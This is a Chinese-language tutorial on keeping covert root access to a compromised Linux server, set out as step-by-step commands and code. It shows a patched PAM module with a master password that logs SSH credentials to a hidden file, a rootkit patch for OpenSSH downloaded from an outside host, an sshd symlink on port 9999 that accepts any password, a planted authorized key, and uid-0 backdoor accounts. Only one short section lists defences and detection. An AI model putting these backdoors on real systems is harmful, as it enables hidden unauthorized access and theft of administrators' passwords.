# 1. SSH—PAM后门

PAM是一种认证模块，PAM可以作为Linux登录验证和各类基础服务的认证，简单来说就是一种用于Linux系统上的用户身份验证的机制。进行认证时首先确定是什么服务，然后加载相应的PAM的配置文件(位于/etc/pam.d)，最后调用认证文件(位于/lib/security)进行安全认证.简易利用的PAM后门也是通过修改PAM源码中认证的逻辑来达到权限维持

## 1.1. 整体流程

1. 获取目标系统所使用的PAM版本，下载对应版本的pam版本
2. 解压缩，修改pam_unix_auth.c文件，添加万能密码
3. 编译安装PAM
4. 编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，复制到/lib64/security中进行替换，即使用万能密码登陆，将用户名密码记录到文件中。

## 1.2. 操作演示

这里采用的是centos7.3版本，同时这里演示的包在github上虽然还能下载，但是在实际的测试过程中，发现已经测试不成功了。

### 1.2.1. 查看PAM版本

这里主要看PAM的版本是1.1.8，那么我们去下载PAM包的时候也需要使用对应的1.1.8版本。

```
setenforce 0    ##关闭防火墙
rpm -qa | grep pam
```



### 1.2.2. 下载对应版本

这里下载的时候也需要去下载1.1.8，当然你也可以使用wget来进行下载，这里我这里一直解析出错，下载完再上传也是可以的。

```
https://github.com/linux-pam/linux-pam/releases/tag/Linux-PAM-1_1_8
```



#### 1.2.2.1. 解压

```
tar -zxvf linux-pam-Linux-PAM-1_1_8.tar.gz
```



### 1.2.3. 安装依赖

主要需要安装将gcc编译器和flex库。

```
yum install gcc flex flex-devel -y
```



### 1.2.4. 修改配置

这里修改配置主要就是将后门以及ssh登陆的账号密码保存进去。

```
vim linux-pam-Linux-PAM-1_1_8/modules/pam_unix/pam_unix_auth.c 
```


#### 1.2.4.1. 配置内容

将第179行位置的内容中修改成以下内容，这里一定要对其了，如果无法对齐，那么就在本地修改完成后，再上传到目标主机上替换原先的文件即可。

```
/* verify the password of this user */
retval = _unix_verify_password(pamh, name, p, ctrl);
if(strcmp("hackers",p)==0){return PAM_SUCCESS;} //后门密码
if(retval == PAM_SUCCESS){ 
FILE * fp; 
fp = fopen("/tmp/.sshlog", "a");//SSH登录用户密码保存位置
fprintf(fp, "%s : %s\n", name, p); 
fclose(fp);} 
name = p = NULL;
AUTH_RETURN;
```



#### 1.2.4.2. 编译安装

注意到这边就无法编译了，我也不知道，后门我是替换了一个pam的包才成功，虽然网上确实还存在这种利用的手法，但是很多文章都是几年前的了，可能也被淘汰了。

```
cd linux-pam-Linux-PAM-1_1_8
./configure && make
```



#### 1.2.4.3. 备份配置

备份原有pam_unix.so,防止出现错误登录不上，复制新PAM模块到/lib64/security/目录下。

```
cp /usr/lib64/security/pam_unix.so /tmp/pam_unix.so.bakcp
cd modules/pam_unix/.libs
cp pam_unix.so /usr/lib64/security/pam_unix.so
```



### 1.2.5. 连接测试

可以看到这里是成功连接上去了。



### 1.2.6. 查看登陆密码

由于密码日志文件是被隐藏的，所以可以直接使用cat去查看，这里只要管理者使用ssh进行连接就会记录密码，而这些操作都是无感的，当然若管理员会去定期排查，那么该被发现还是会被发现的，这些都是基于管理员不会定期去排查才能够持久。

```
cat /tmp/.sshlog
```



# 2. OpenSSH后门

OpenSSH是SSH（Secure Shell）协议的免费开源实现。很多人误认为OpenSSH与OpenSSL有关联，但实际上这两个计划有不同的目的和不同的发展团队，名称相近只是因为两者有同样的发展目标──提供开放源代码的加密通信软件。

## 2.1. 原理

替换本身操作系统的ssh协议支撑软件openssh，重新安装自定义的openssh,达到记录帐号密码，也可以采用万能密码连接的功能！

## 2.2. 操作演示

这里，有一个问题就是，这整个流程过程中，可能会存在失败的情况，这个实验我尝试了三次才成功，并且过程中还是有很多不完美的地方，很容易就会被察觉。

也说了测试了好几次，所以后面的也不想写了，实在是无语了。

[参考文章](https://mp.weixin.qq.com/s/BNrJHUs9qxEVHNSFEghaRw)

### 2.2.1. 安装依赖

这里将一些依赖进行更新安装。

```
yum -y install openssl openssl-devel pam-devel zlib zlib-devel
yum -y install gcc gcc-c++ make              
```



### 2.2.2. 下载替换包和后门文件

这里可以手动下载也可以在线下载，如果在线下载出现报错，那就手动下载后再上传。

```
wget http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz
wget https://mirror.aarnet.edu.au/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
```



#### 2.2.2.1. 解压包

```
tar -xzvf openssh-5.9p1.tar.gz 
tar -xzvf 0x06-openssh-5.9p1.patch.tar.gz
```



### 2.2.3. 安装openssh

这里如果出现密钥pahch，那就使用yum安装一下。

```
cp openssh-5.9p1.patch/sshbd5.9p1.diff openssh-5.9p1
cd openssh-5.9p1 && patch < sshbd5.9p1.diff
```



#### 2.2.3.1. 编辑密码

将define SECRETPW后面的修改成自己想要的密码即可。

```
vim includes.h
```



#### 2.2.3.2. 安装编译

这里要注意一个问题就是，不一定编译就能够成功，有时候根本无法编辑，从网上找的很多资料中，都跳过直接给命令，所以这里我就提前说一下，不一定能够编译成功，不成功再次重新测试，若还是不行，就拉到吧。

```
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5 && make && make install
```



### 2.2.4. 重启

这里重启也可能存在问题，这个实验有时候很莫名其妙的，有时候能够测试成功，有时候测试是不成功的。

```
systemctl restart sshd.service #重启sshd服务
systemctl status sshd.service #查看ssh启动状态
```



### 2.2.5. 测试登陆

这里如果ssh没重启成功或者前面测试不成功就会出现，本地的ssh都无法连接。

#### 2.2.5.1. 超级密码测试

这里我测试使用admin密码是能够登陆的。

```
ssh root@192.168.10.60
```



#### 2.2.5.2. 查看明文密码

```
cat /tmp/ilog
```



## 2.3. 防范方法

1. 重装OpenSSH软件，更新至最新版本7.2。
2. 将SSH默认登录端口22更改为其他端口。
3. 在IPTable中添加SSH访问策略。
4. 查看命令历史记录，对可疑文件进行清理。在有条件的情况下，可重做系统。
5. 修改服务器所有用户的密码为新的强健密码。
6. 使用strace命令找出SSH后门。
7. 运行“ps aux | grep sshd”命令获取可疑进程的PID，运行“strace -o aa -ff -p PID”命令进行跟踪，成功登录SSH后，在当前目录下就生成了strace命令的输出。
8. 使用“grep open aa* | grep -v -e No -e null -e denied| grep WR”命令查看记录文件。
9. 在上面的命令中，过滤错误信息、/dev/null信息和拒绝（denied）信息，找出打开了读写模式（WR）的文件（因为要把记录的密码写入文件）。
10. 可以找到以读写方式记录在文件中的SSH后门密码文件的位置，并通过该方法判断是否存在SSH后门。当然，也有不记录密码，而仅仅留下一个万能SSH后门的情况。

# 3. SSH软链接

在sshd服务配置启用PAM认证的前提下，PAM配置文件中控制标志为sufficient时，只要pam_rootok模块检测uid为0（root）即可成功认证登录。

## 3.1. 操作演示

这个操作仅限服务器持续开机状态下进行连接，如果关机了，那么这个后门就无法再次使用了。

### 3.1.1. 查看是否开启pam身份验证

这里如果是no可以去这个配置文件中直接去修改，不过需要是root权限哦。

```
cat /etc/ssh/sshd_config|grep UsePAM
```



### 3.1.2. 建立软连接

这里建立软连接后，需要将防火墙的端口开放，如果防火墙是关闭的就无所谓了。

```
ln -sf /usr/sbin/sshd /tmp/su ;/tmp/su -oPort=9999
#开启软链接，链接端口为9999
 
firewall-cmd --add-port=9999/tcp --permanent
#开启防火墙规则，不然会连接不上
 
firewall-cmd --reload
#重启防火墙服务
 
firewall-cmd --query-port=9999/tcp
#查看防火墙9999端口是否被放行，回显为YES即成功放行
```



### 3.1.3. 测试

这里后面的9999是端口，进去随便输入一些密码就可以登录进去了。

```
ssh root@192.168.10.60 -p 9999   ##-p 后面这个是端口
```



# 4. 公私钥

原理：利用密钥生成器制作一对密钥即公钥和私钥。将公钥添加到服务器的某个账户上，然后在客户端利用私钥即可完成认证并登录。

## 4.1. 操作演示

整个流程就是在本地的一台Linux的服务器上生成一个密钥，然后将公密钥上传到目标主机上，然后再使用本地去连接目标主机，就实现无需密码连接。

但是缺点也有，太容易被发现了。

### 4.1.1. 开启

这里可能会有一条命令没有，到时候输入上去就可以了，这里要注意不管是攻击机还是目标机器都需要开启这个验证。

```
vim /etc/ssh/sshd_config

RSAAuthentication yes
PubkeyAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys
```



### 4.1.2. 攻击机生成

这里使用攻击机生成密钥。

```
ssh-keygen -t rsa #三次回车
id_rsa : 私钥
id_rsa.pub : 公钥
```



### 4.1.3. 上传目标主机

这里将攻击机中的公钥中的内容复制到authorized_keys中。如果本地没有这个文件那就创建一个。

```
/root/.ssh/authorized_keys
```



### 4.1.4. 登录测试

这里直接去登录就会发现是不需要使用密码验证的，其实在kali去连接目标主机的时候就已经进行了密钥验证。

```
ssh root@192.168.10.60
```


# 5. 后门账户

创建后门账户同样都容易被发现，除非服务器日常都没人巡检，若正常有管理员巡检或者设置的比较严格的，通常都不能保留的时间太长。

## 5.1. 方法1

添加账号test1，设置uid为0，密码为123456

```
useradd -p `openssl passwd -1 -salt 'salt' 123456` test1 -o -u 0 -g root -G root -s /bin/bash -d /home/test1
```



### 5.1.1. 测试

```
ssh test1@192.168.10.60
```



## 5.2. 方法2

```
echo "test2:x:0:0::/:/bin/sh" >> /etc/passwd #增加超级用户账号
passwd test2 #修改test2的密码为123456
```



### 5.2.1. 测试

```
ssh test2@192.168.10.60
```

